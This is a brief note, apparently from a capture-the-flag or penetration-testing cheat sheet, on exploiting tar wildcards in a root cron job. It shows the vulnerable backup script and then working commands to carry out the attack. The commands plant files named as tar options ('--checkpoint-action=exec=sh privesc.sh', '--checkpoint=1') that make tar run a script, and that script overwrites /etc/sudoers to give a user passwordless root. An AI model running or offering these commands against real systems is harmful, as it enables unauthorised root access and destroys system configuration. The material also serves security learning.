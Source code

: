 ## Tar
https://www.sevenlayers.com/index.php/blog/353-exploiting-tar-wildcards
Vulnerable script executed every 1 min. by root
```bash
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```
 We can exploit it
 ```bash
 $ echo 'echo "user ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > privesc.sh
 
 $ echo "" > "--checkpoint-action=exec=sh privesc.sh"
 
 $ echo "" > --checkpoint=1
 ```
 Once the cron job is executed, we are in the sudoers